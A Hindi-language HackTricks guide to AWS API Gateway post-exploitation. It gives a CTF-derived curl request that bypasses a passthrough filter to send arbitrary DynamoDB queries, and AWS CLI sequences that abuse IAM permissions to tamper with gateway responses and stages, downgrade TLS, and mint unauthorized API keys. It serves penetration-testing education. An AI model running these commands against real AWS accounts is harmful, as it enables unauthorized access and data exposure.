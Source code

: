 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### अप्रकट APIs तक पहुँच

आप [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) पर `com.amazonaws.us-east-1.execute-api` सेवा के साथ एक endpoint बना सकते हैं, उस endpoint को एक नेटवर्क में एक्सपोज़ करें जहाँ आपको पहुँच हो (संभावित रूप से एक EC2 मशीन के माध्यम से) और सभी कनेक्शनों की अनुमति देने वाला एक सुरक्षा समूह असाइन करें।\
फिर, EC2 मशीन से आप endpoint तक पहुँच सकेंगे और इसलिए उस gateway API को कॉल कर सकेंगे जो पहले एक्सपोज़ नहीं था।

### Request body passthrough को बायपास करें

यह तकनीक [**इस CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) में पाई गई थी।

जैसा कि [**AWS दस्तावेज़**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) में `PassthroughBehavior` अनुभाग में संकेत दिया गया है, डिफ़ॉल्ट रूप से, मान **`WHEN_NO_MATCH`**, जब अनुरोध के **Content-Type** हेडर की जाँच करता है, तो अनुरोध को बिना किसी परिवर्तन के बैक एंड पर पास कर देगा।

इसलिए, CTF में API Gateway में एक इंटीग्रेशन टेम्पलेट था जो **फ्लैग को रिस्पॉन्स में एक्सफिल्ट्रेट होने से रोक रहा था** जब एक अनुरोध `Content-Type: application/json` के साथ भेजा गया था:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

हालांकि, **`Content-type: text/json`** के साथ अनुरोध भेजने से उस फ़िल्टर को रोका जा सकता था।&#x20;

अंत में, क्योंकि API Gateway केवल `Get` और `Options` की अनुमति दे रहा था, यह संभव था कि बिना किसी सीमा के एक मनमाना dynamoDB क्वेरी भेजी जा सके, POST अनुरोध के साथ क्वेरी को बॉडी में भेजकर और हेडर `X-HTTP-Method-Override: GET` का उपयोग करके:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**Enumeration** अनुभाग में आप देख सकते हैं कि **keys का usage plan कैसे प्राप्त करें**। यदि आपके पास key है और यह **प्रति माह X usages** तक **सीमित** है, तो आप इसे **सिर्फ उपयोग करके DoS का कारण बन सकते हैं**।

**API Key** को **HTTP header** में **`x-api-key`** कहा जाता है, के अंदर **शामिल** करने की आवश्यकता है।

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateGatewayResponse` और `apigateway:CreateDeployment` अनुमतियाँ हैं, वह **संवेदनशील जानकारी लीक करने या दुर्भावनापूर्ण स्क्रिप्ट निष्पादित करने के लिए कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल करने के लिए मौजूदा Gateway Response को संशोधित कर सकता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी का लीक होना, दुर्भावनापूर्ण स्क्रिप्ट्स का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateStage` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API Gateway स्टेज को संशोधित कर सकता है ताकि ट्रैफ़िक को किसी अन्य स्टेज पर पुनर्निर्देशित किया जा सके या कैशिंग सेटिंग्स को बदलकर कैश किए गए डेटा तक अनधिकृत पहुंच प्राप्त की जा सके**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा तक अनधिकृत पहुंच, API ट्रैफ़िक को बाधित या इंटरसेप्ट करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API Gateway REST API विधि की विधि प्रतिक्रिया को संशोधित कर सकता है ताकि कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल हों जो संवेदनशील जानकारी को लीक करते हैं या दुर्भावनापूर्ण स्क्रिप्ट निष्पादित करते हैं**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक होना, दुर्भावनापूर्ण स्क्रिप्ट्स का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **API Gateway REST API सेटिंग्स को संशोधित कर सकता है ताकि लॉगिंग को अक्षम किया जा सके या न्यूनतम TLS संस्करण को बदल सके, जिससे API की सुरक्षा कमजोर हो सकती है**।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, जिससे अनधिकृत पहुंच या संवेदनशील जानकारी का खुलासा हो सकता है।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

एक हमलावर जिसके पास `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` अनुमतियाँ हैं, **नए API कुंजियाँ बना सकता है, उन्हें उपयोग योजनाओं के साथ जोड़ सकता है, और फिर इन कुंजियों का उपयोग API तक अनधिकृत पहुंच के लिए कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को बायपास करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में।

</details>
{% endhint %}
